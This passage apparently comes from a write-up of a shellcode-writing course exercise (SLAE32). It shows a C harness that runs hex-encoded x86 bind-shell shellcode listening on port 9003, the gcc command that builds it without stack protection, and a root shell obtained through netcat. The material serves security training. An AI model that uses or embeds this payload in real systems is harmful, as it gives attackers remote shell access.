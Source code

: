 root@kali:~/Documents/slae32/exercise_1# cat shell.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x31\xc9\x51\x51\x66\x68\x23\x2b\x66\x6a\x02\x89\xe1\x31\xd2\xb2\x10\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

int main(void)  {
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

Compiling and executing:
```
root@kali:~/Documents/slae32/exercise_1# gcc -fno-stack-protector -z execstack shell.c -o shell
root@kali:~/Documents/slae32/exercise_1# ./shell 
Shellcode Length:  118

root@kali:~# nc localhost 9003
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root/Documents/slae32/exercise_1
```

## Additional:
todo - amend this section to include any course details ready for submission. For now, the write ups will just be live.